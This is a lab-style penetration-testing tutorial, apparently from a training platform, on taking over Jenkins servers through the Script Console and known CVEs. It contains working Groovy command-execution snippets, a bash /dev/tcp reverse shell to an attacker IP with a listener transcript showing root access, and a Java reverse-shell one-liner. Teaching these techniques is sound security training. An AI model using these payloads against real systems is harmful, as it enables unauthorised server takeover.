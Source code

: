 1. [Page 12](javascript: void\(0\);)
2. Attacking Jenkins

# Attacking Jenkins

---

We've confirmed that the host is running Jenkins, and it is configured with weak credentials. Let's check and see what type of access this will give us.

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/). The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime. This can be abused to run operating system commands on the underlying server. Jenkins is often installed in the context of the root or SYSTEM account, so it can be an easy win for us.

---

## Script Console

The script console can be reached at the URL `http://jenkins.inlanefreight.local:8000/script`. This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts, which are an object-oriented Java-compatible language. The language is similar to Python and Ruby. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

Using this script console, it is possible to run arbitrary commands, functioning similarly to a web shell. For example, we can use the following snippet to run the `id` command.

Code: groovy

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

![](../imgs/groovy_web.webp)

There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or [this](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) Metasploit module.

Code: groovy

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Running the above commands results in a reverse shell connection.

Attacking Jenkins

```shell-session
swmpdnky@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

Code: groovy

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.

Code: groovy

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

## Miscellaneous Vulnerabilities

Several remote code execution vulnerabilities exist in various versions of Jenkins. One recent exploit combines two vulnerabilities, CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) to achieve pre-authenticated remote code execution, bypassing script security sandbox protection during script compilation. Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file. This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins version 2.137.

Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vulnerability requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.

As we have seen, gaining access to Jenkins as an administrator can quickly lead to remote code execution. While several working RCE exploits exist for Jenkins, they are version-specific. At the time of writing, the current LTS release of Jenkins is 2.303.1, which fixes the two flaws detailed above. As with any application or system, it is important to harden Jenkins as much as possible since built-in functionality can be easily used to take over the underlying server.

---

## Shifting Gears

We've covered various ways that popular CMS' and servlet containers/software development applications can be abused to exploit both known vulnerabilities and built-in functionality. Let's shift our focus a bit to two well-known infrastructure/network monitoring tools: Splunk and PRTG Network Monitor.